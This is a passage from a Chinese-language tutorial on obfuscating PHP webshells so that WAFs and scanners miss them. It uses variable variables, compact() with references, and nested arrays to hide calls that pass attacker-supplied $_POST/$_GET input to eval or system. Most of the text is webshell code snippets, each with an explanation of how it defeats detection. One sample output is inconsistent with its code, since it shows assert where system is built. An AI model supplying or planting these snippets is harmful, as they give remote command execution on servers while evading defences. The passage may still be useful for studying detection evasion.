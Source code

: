 那要怎么利用这个特性呢？如下：

```plain
$f ='hello';
$$f = $_POST['aabyss'];
eval($hello);   //eval($_POST['aabyss']);
```

### 5.2 数组 + 变量引用混淆

上文提到，可以通过 `compact` 创建一个包含变量名和它们的值的数组

那就可以用 `compact` 创建一个包含恶意函数和内容的数组，再引用出来拼接成语句即可

```plain
$z = "system";                        //配合其他姿势，将 system 高危函数传给 z
$zhixin  = &$z;
$event = 'hahaha';

$result = compact("event", "zhixin"); //通过 compact 创建数组
$z = 'wahaha';                        //我将变量 z 进行修改为'wahaha'

$f = $result['zhixin'];
$f($_POST['aabyss']);                  //system($_POST['aabyss']);
```

根据 5.1 学到的内容，可以发现传入数组后，函数内容被替换是不会影响数组中的内容的

于是先用变量 `zhixin` 来引用变量 `z` 然后通过 `compact` 创建为数组，接下来再将变量 `z` 附上新的内容 `wahaha` ，传统的 WAF 追踪变量的内容时候，就会让查杀引擎误以为数组中的值不是 `system` 而是 `wahaha` ，从而达到 WebShell 免杀

## 6# 数组绕过

先将高危函数部分存储在数组中，等到时机成熟后提取出来进行拼接

### 6.1 一维数组

```plain
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

数组内容如下：

```plain
Array ( [0] => Array ( [a] => assert($_GET['aabyss']) ) )
```

### 6.2 二维数组

```plain
$f = substr_replace("systxx","em",4);          //system（高危函数）
$z = array($arrayName = ($arrayName = ($arrayName = array('a' => $f($_POST['aabyss'])))));
var_dump($z);
```
